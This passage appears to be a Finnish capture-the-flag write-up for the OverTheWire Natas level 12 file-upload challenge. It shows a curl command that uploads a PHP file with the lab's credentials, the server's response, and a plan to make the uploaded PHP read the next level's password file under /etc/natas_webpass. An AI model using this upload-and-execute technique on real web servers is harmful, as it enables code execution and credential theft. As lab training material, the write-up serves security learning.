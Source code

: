```
┌──(kali㉿kali)-[~]
└─$  curl -u natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB -F "MAX_FILE_SIZE=1000" -F "filename=kuvat.php" -F "uploadedfile=@./kuvat.php" http://natas12.natas.labs.overthewire.org
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas12", "pass": "yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB" };</script></head>
<body>
<h1>natas12</h1>
<div id="content">
The file <a href="upload/q7r2uzojcg.php">upload/q7r2uzojcg.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Siksi tuleksena ja kun tarkistettaan se URL linkki ja perään toi *upload* tiedostonsa, eli `upload/q7r2uzojcg.php` --> http://natas12.natas.labs.overthewire.org/upload/q7r2uzojcg.php

![alt text](./kuvat-level11-15/natas12-Kali-1.png)

Seuraavaksi halutaan selvittää Natas 13:sen salasansa, mutta periaatteessa samalla ideana ja muuttaa tämän `<?php phpinfo(); ?>` - PHP koodinsa muuttaen haettavaksi hakemiston polun `/etc/natas_webpass/natas13` - ja koska me halutaan määrittää sen samana ideana nuolikärjellä ulos > *tiedosto.php*
